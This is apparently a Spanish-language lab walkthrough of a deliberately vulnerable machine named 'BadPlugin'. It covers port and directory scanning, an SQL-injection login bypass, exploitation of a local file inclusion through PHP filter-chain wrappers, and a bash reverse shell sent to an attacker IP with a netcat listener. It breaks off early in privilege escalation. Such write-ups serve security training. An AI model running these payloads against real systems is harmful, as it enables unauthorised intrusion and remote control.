 # Máquina BadPlugin

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.135

![alt text](image-1.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80 vvv -Pn 192.168.42.135

![alt text](image-2.png)



### Fuzzing Web

gobuster dir -t 200 -u http://192.168.42.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

![alt text](image-3.png)

Fuzzing web a library

gobuster dir -t 200 -u http://192.168.42.135/library/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null

![alt text](image-4.png)

### Accedemos a /library/admin

Nos encontramos con un formulario de login que fácilmente podemos ingresar utilizando ' OR 1=1 -- -

![alt text](image-5.png)

Inicio de sesión exitoso:

![alt text](image-6.png)

### Explotación

inspeccionamos la página con ctrl + u y encontramos un LFI:

![alt text](image-7.png)

Usando wrappers con la herramienta php_filter_chain_generator 

pasos a seguir:

a.- Creamos una reverse shell llamada r con el siguiente contenido:

nano r

bash -i >& /dev/tcp/192.168.42.133/443 0>&1 

![alt text](image-8.png)

b.- Iniciamos un servidor web con python en la carpeta donde creamos el r

python3 -m http.server 80

![alt text](image-9.png)

c.- Nos ponemos en escucha con netcat por el puerto 443

nc -nlvp 443

d. En la carpeta php_filter_chain_generator, ejecutamos

![alt text](image-11.png)

generará un wrapper

e.- Pegamos el wrapper  en la url de esta manera:

ejemplo:

http://192.168.42.135/library/admin/index.php?lang=wrapper

f.- Tenemos acceso

![alt text](image-10.png)

### Escalar privilegios

En el directorio home hay 1 usuario

![alt text](image-12.png)


busqué en todos los archivos desde la raíz para ver encuentro alguna contraseña:

![alt text](image-13.png)

cambiamos al usuario r3dh4ck

![alt text](image-14.png)

sudo -l

![alt text](image-15.png)

![alt text](image-16.png)
